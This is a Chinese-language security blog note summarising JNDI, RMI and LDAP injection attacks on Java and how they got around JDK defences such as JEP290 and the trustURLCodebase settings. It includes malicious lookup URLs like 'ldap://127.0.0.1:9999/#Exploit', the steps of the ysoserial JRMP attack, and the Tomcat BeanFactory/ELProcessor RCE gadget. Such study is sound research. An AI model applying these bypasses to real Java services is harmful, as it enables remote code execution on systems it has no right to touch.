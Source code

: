 ```yaml
---
title: "JNDI、RMI、LDAP防御和绕过总结"
date: 2022-03-13T16:13:45+08:00
draft: false
image: 
description: 
comments: true
license: true
math: false
categories:
- note
tags:
- JNDI
- RMI
- LDAP
---
```


本篇原理分析较少，主要是总结梳理攻击，绕过手法

## 前置知识

### RMI调用流程

![17cd7c7d4f9ef2c362efb3086c27417e.png](https://raw.githubusercontent.com/Anthem-whisper/imgbed/main/img/202212271610049.png)

RMI基于反序列化，每次数据交换都存在序列化-反序列化操作，由此延伸出对三端的攻击手法

### JNDI攻击手法

通常 JNDI 注入攻击的都是 lookup 方法的执行者，一般步骤如下：

1.  目标机器中调用了 `InitialContext.lookup(URL)`，且 URL 为用户可控
2.  攻击者控制这个 URL 为一个恶意的 RMI 服务地址：`rmi://hack:port/name`或者`ldap://xxx/xxx`
3.  恶意 RMI/ldap 服务会返回一个含有恶意 factory 的 Reference 对象或者直接返回恶意序列化数据

> - JNDI 注入可以通过 RMI 方式和 LDAP 方式来达到攻击效果。
> - javax.naming.InitialContext.lookup('ldap://127.0.0.1:9999/#Exploit')
> - org.springframework.jndi.JndiLocatorDelegate.lookup('rmi://127.0.0.1:1099/refObj')

## **jdk8u121**

这个版本主要是ban掉了RMI的一些打法

1.  从jdk8u121开始，RMI加入了反序列化白名单机制(**[JEP290](https://www.twblogs.net/a/5e4efb52bd9eee101df6892d)**)
2.  在jdk8u121之后，对于Reference加载远程代码，jdk的信任机制，在通过rmi加载远程代码的时候，会判断环境变量`com.sun.jndi.rmi.object.trustURLCodebase`是否为true，而其在121版本及后，默认为false。RMI远程Reference代码攻击方式开始失效

### 白名单绕过（JEP290绕过）

可以看这篇：[RMI-JEP290的分析与绕过 - 安全客，安全资讯平台](https://www.anquanke.com/post/id/259059)

为了绕过**JEP290**，ysoserial里面的JRMPClient链子，通过UnicastRef这个在RMI反序列化白名单内的gadget进行攻击：

1.  用`ysoserial`启动一个恶意的`JRMPListener`
2.  受害者启动注册中心(RMI Registry)
3.  攻击者启动Client调用`bind()`操作
4.  注册中心（受害者）被反序列化攻击

> 如果我们可以控制 UnicastRef 中 LiveRef 所封装的 host、端口等信息，我们就可以发起一个任意的 JRMP 连接请求，这其实就是 ysoserial 中的 payloads.JRMPClient 的原理。
> 
> 实际上ysoserial这个JRMPClient和JRMPListener就是利用JRMP协议对打

攻击过程：
![0a195b875b83dececc1d8526523878e3.png](https://raw.githubusercontent.com/Anthem-whisper/imgbed/main/img/202212271611301.png)

后续修复和绕过：

1.  绕过的修复版本：jdk8u231，在JDK8u231的`dirty`函数中多了`setObjectInputFilter`过程，所以用`UnicastRef`就没法再进行绕过了。
2.  `1.`修复版本的绕过：国外安全研究人员`@An Trinhs`发现了一个gadgets利用链，能够直接反序列化`UnicastRemoteObject`造成反序列化漏洞。参考：[RMI Bypass Jep290(Jdk8u231) 反序列化漏洞分析 - 360CERT](https://cert.360.cn/report/detail?id=add23f0eafd94923a1fa116a76dee0a1)

> 在上面的 Bypass 中，UnicastRef 类用了一层包装，通过递归的形式触发反序列化；通过 DGCClient 向 JRMPListener 发起 JRMP 请求，而这条 Gadget 是直接利用一次反序列化发起 JRMP 请求

3.  `2.`绕过的修复版本：jdk8u241，在调用`UnicastRef.invoke`之前，做了一个检测。声明方法的类，必须要实现`Remote`接口，然而这里的`RMIServerSocketFactory`并没有实现，于是无法进入到invoke方法，直接抛出错误。

### 使用ldap

在这个版本还没有ban掉ldap的Reference对象和ldap直接返回恶意序列化数据

### 服务端Object参数暴露

这个其实就是正常RMI Client攻击Server的手法。

例如，远程调用的接口 RemoteInterface 存在一个 sayGoodbye 方法的参数是 Object 类型。

![cad6d7a0109df4f446a58467d0dbf87c.png](https://raw.githubusercontent.com/Anthem-whisper/imgbed/main/img/202212271612915.png)

RMI的传输100%基于反序列化，那我们就直接可以传一个反序列化 payload 进去执行反序列化。

如果参数不是Object还有后续绕过：

> 由于攻击者可以完全控制客户端，因此他可以用恶意对象替换从Object类派生的参数（例如String）有几种方法：
> 
> 1.  将java.rmi软件包的代码复制到新软件包，然后在其中更改代码
>     
> 2.  将调试器附加到正在运行的客户端，并在序列化对象之前替换对象
>     
> 3.  使用Javassist之类的工具更改字节码
>     
> 4.  通过实现代理来替换网络流上已经序列化的对象
>     

也被su18师傅称为替身攻击：

> 大体的思路就是调用的方法参数是 HelloObject，而攻击者希望使用 CC 链来反序列化，比如使用了一个入口点为 HashMap 的 POC，那么攻击者在本地的环境中将 HashMap 重写，让 HashMap 继承 HelloObject，然后实现反序列化漏洞攻击的逻辑，用来欺骗 RMI 的校验机制。

afanti师傅用的是通过RASP hook住`java.rmi.server.RemoteObjectInvocationHandler`类的`InvokeRemoteMethod`方法的第三个参数非Object的改为Object的gadget。他的项目地址在[RemoteObjectInvocationHandler](https://github.com/Afant1/RemoteObjectInvocationHandler)。

## jdk8u191

这个版本ban掉了ldap的Reference对象

> 在jdk8u191之后，加入LDAP远程Reference代码信任机制，LDAP远程代码攻击方式开始失效，也就是系统变量`com.sun.jndi.ldap.object.trustURLCodebase`默认为false（CVE-2018-3149）

高版本绕过主要有两种方式：

- LDAP Server 直接返回恶意序列化数据，但需要目标环境存在 Gadget 依赖
  
- 使用本地 Factory 绕过（主要是利用了 `org.apache.naming.facotry.BeanFactory` 类）
  

### ldap直接返回序列化数据

1.  搭建恶意LDAP Server，可以直接改 [marshalsec](https://github.com/mbechler/marshalsec) 里面的：
2.  受害者 lookup 方法参数可控，执行 ldap://xxx/xxx

### 利用本地 Factory 绕过

在 Reference 类中的 factory Class，要求实现 ObjectFactory 接口，在 "NamingManager#getObjectFactoryFromReference" 方法中的逻辑是这样的：

1.  优先从本地加载 factory，这就要求 factory Class 在本地的 ClassPath 中
2.  本地加载不到会从 codebase 处加载，**但是由于高版本 jdk 默认不信任 codebase，在一般情况下无法利用**
3.  在加载完 factory 之后会强制类型转换为 `javax.naming.spi.ObjectFactory` 接口类型，之后调用 `factory.getObjectInstance()` 方法

所以如果找可以利用的 factory 就要满足下面的要求：

- 在目标的 ClassPath 中，且实现了 `javax.naming.spi.ObjectFactory` 接口
  
- 其 `getObjectInstance` 方法可以被利用
  

（其中一条Gadget）这个可用的 factory 类为 `org.apache.naming.BeanFactory`，位于 tomcat 的依赖包中，此外，这个 factory 绕过需要搭配 `javax.el.ELProcessor` 执行任意的 EL 表达式来完成 RCE，依赖：

```XML
 <dependency>
     <groupId>org.apache.tomcat</groupId>
     <artifactId>tomcat-catalina</artifactId>
     <version>8.5.0</version>
 </dependency>
 
 <!-- 加载ELProcessor时需要 -->
 <dependency>
     <groupId>org.apache.tomcat.embed</groupId>
     <artifactId>tomcat-embed-el</artifactId>
     <version>8.5.0</version>
 </dependency>
```

## Reference

[如何绕过高版本 JDK 的限制进行 JNDI 注入利用 - 安全客](https://paper.seebug.org/942/)

[RMI Bypass Jep290(Jdk8u231) 反序列化漏洞分析 - 360CERT](https://cert.360.cn/report/detail?id=add23f0eafd94923a1fa116a76dee0a1)

[RMI-JEP290的分析与绕过 - 安全客，安全资讯平台](https://www.anquanke.com/post/id/259059)

[Bypass JEP290 - Y4er](https://y4er.com/post/bypass-jep290/)

[如何绕过高版本JDK的限制进行JNDI注入利用](https://kingx.me/Restrictions-and-Bypass-of-JNDI-Manipulations-RCE.html)

[浅析高低版JDK下的JNDI注入及绕过 \[Mi1k7ea\]](https://www.mi1k7ea.com/2020/09/07/%E6%B5%85%E6%9E%90%E9%AB%98%E4%BD%8E%E7%89%88JDK%E4%B8%8B%E7%9A%84JNDI%E6%B3%A8%E5%85%A5%E5%8F%8A%E7%BB%95%E8%BF%87/)

[JNDI注入分析 - 跳跳糖](https://tttang.com/archive/1611/)